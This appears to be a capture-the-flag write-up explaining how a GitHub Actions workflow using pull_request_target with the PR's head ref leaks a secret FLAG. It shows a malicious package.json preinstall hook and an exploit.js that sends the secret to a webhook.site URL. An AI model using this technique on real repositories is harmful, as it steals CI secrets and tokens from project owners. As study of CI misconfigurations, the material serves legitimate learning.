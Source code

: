 ```yml
          token: ${{ secrets.PAT }}
      - name: Set up Node.js
        uses: actions/setup-node@v4
        with:
          node-version: '20'
      - name: Install dependencies
        run: npm install
        env:
          FLAG: ${{ secrets.FLAG }}
      - name: Run build
        run: npm run build
```

I mam curious what is `pull_request_target` about. I search and found this [article](https://stackoverflow.com/questions/74957218/what-is-the-difference-between-pull-request-and-pull-request-target-event-in-git). <br>

From my understanding, `pull_request_target` can access the secret token and have read write permission. And also there is some curious part in this file. <br>
- `ref: ${{github.event.pull_request.head.ref}}` so it checkout the branch from the pull request.
- use PAT to access the repo.
- have the ability to access env FLAG from secret.

So the idea is that we can create a pull request to get this FLAG to our webhook. In order to do that, we need to add 1 more line to `package.json` file. <br>
```json
"scripts": {
  "preinstall": "node .github/scripts/exploit.js"
}
```

And create a new file `/.github/scripts/exploit.js` to get the FLAG. <br>
```js
const https = require('https'); https.get(`https://webhook.site/3e9e2852-23ec-408a-9bed-b6cc7cd9b78c?flag=${encodeURIComponent(process.env.FLAG)}`);

```

After that, we need to `git commit` and `git push` to the repo. And then create a pull request to rebuild the repo. <br>
Then go to the tab `Actions` and check the workflow `Install dependencies` to see the result. <br>

This is the result if we using this script to exploit. <br>
```js
console.log("FLAG FOUND:", process.env.FLAG);
```
